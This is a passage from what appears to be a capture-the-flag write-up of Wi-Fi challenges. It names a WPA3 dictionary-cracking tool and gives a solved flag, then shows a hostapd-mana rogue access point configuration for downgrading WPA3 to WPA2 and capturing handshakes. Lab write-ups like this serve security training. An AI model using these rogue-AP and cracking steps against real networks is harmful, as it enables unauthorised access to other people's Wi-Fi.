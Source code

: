 ![](Images/Recon13_01.png)

Use https://github.com/blunderbuss-wctf/wacker (WPA3 dictionnary cracker):

```shell
sudo iwlist wlan1 scan|grep Frequency
Frequency:2.462 GHz (Channel 11)
...
```

![](Images/Recon13_02.png)

**Flag :**  `chocolate1`

## **14. What is the wifi-IT password?**

**Challenge Description :**  What is the wifi-IT password? Downgrade WPA3 to WPA2.

### Approach

I have to find how I can downgrade WP3 to WP2.

I can use `hostapd-mana` to create downgraded AP:

```shell
interface=wlan1
driver=nl80211
hw_mode=g
channel=11
ssid=wifi-IT
mana_wpaout=wifi-IT.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```
